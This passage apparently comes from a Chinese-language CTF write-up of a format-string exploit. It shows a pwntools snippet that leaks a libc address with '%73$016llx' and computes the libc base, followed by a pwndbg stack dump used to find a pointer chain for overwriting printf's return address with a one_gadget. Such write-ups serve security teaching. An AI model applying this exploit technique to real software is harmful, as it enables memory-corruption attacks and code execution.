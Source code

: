 

可以看到， `0x00007ffff7c29d90` 位于 `0x7fffffffdbe8` 处，而 rsp 指向 `0x7fffffffd9c8` ，所以在栈中是第 69 位，因此就是格式字符串的第 73 位参数。事实上，若在调试时输入 `%73$016llx` ，程序确实会输出 `00007ffff7c29d90` ，符合要求。

编写下面的 python 代码以获取 libc 基址：

```python
# First payload: leaking libc address
payload1 = b'%73$016l' + b'lxKKKKKK'
conn.sendline(payload1)
recv = conn.recvuntil(b'KKKKKK')
recv = recv.strip(b'KKKKKK')
main_ret_addr = int(recv, 16)
__libc_start_main_addr = main_ret_addr + 0x30
libc_addr = __libc_start_main_addr - libc.symbols['__libc_start_main']
log.success("main_ret_addr => 0x{:016X}".format(main_ret_addr))
log.success("libc_addr     => 0x{:016X}".format(libc_addr))
conn.interactive()
```

运行结果如下：

![image-20240728234411166.png](https://s2.loli.net/2024/07/29/phyjcWksBP1intq.png)

获得 libc 地址为 `0x000079FB95A00000`

### Leaking stack address

由于栈之间的相对偏移应该不变，所以应该可以通过找到一个链：栈上一个位置 A ，其指向栈的另一个位置 B ，找到 A 、 B 其关于格式字符串的偏移位置。然后利用 `printf() %x` 向 B 的地址漏出来，因此就可以找出 rsp 的地址，最后就可以将 printf_ret_addr 改写成 one_gadget。

在一次动态调试中，我注意到了这样一个可以存在的链（注意红色字）：

<pre><font color="#C01C28"><b>pwndbg&gt; </b></font>x /110gx $rsp
<font color="#12488B">0x7fffffffd9c8</font>:	0x000055555555528d	0x654a6568546e7552
<font color="#12488B">0x7fffffffd9d8</font>:	0x0000000a736c6577	0x0000000000000000
<font color="#12488B"> < skipped > </font>
<font color="#12488B">0x7fffffffdbc8</font>:	0x0000000000000000	0x0000000000000000
<font color="#12488B">0x7fffffffdbd8</font>:	0xdf6e9e6f3d379b00	0x0000000000000001
<font color="#12488B">0x7fffffffdbe8</font>:	0x00007ffff7c29d90	0x0000000000000000
<font color="#12488B">0x7fffffffdbf8</font>:	0x00005555555551f0	0x0000000100000000
<font color="#FF0000">0x7fffffffdc08</font>:	<font color="#FF0000">0x00007fffffffdcf8</font>	0x0000000000000000
<font color="#12488B">0x7fffffffdc18</font>:	0x8843981ffe157fda	0x00007fffffffdcf8
<font color="#12488B"> < skipped > </font>
<font color="#12488B">0x7fffffffdce8</font>:	0x000000000000001c	0x0000000000000001
<font color="#FF0000">0x7fffffffdcf8</font>:	0x00007fffffffe083	0x0000000000000000
<font color="#12488B">0x7fffffffdd08</font>:	0x00007fffffffe0a8	0x00007fffffffe0be
<font color="#12488B">0x7fffffffdd18</font>:	0x00007fffffffe0e7	0x00007fffffffe15b
<font color="#12488B">0x7fffffffdd28</font>:	0x00007fffffffe1b1	0x00007fffffffe1c2
<font color="#C01C28"><b>pwndbg&gt; </b></font>
</pre>

 `0x7fffffffdc08` 处的内存指向栈的另一处内存 `0x00007fffffffdcf8` ，而 rsp 指向 `0x7fffffffd9c8` ，所以 A 在栈中第 73 个位置，是相对格式字符串第 77 个参数，而 B 在栈中第 103 个位置， 相对 rsp 偏移值为 (103 - 1) * 8 = 0x330 。
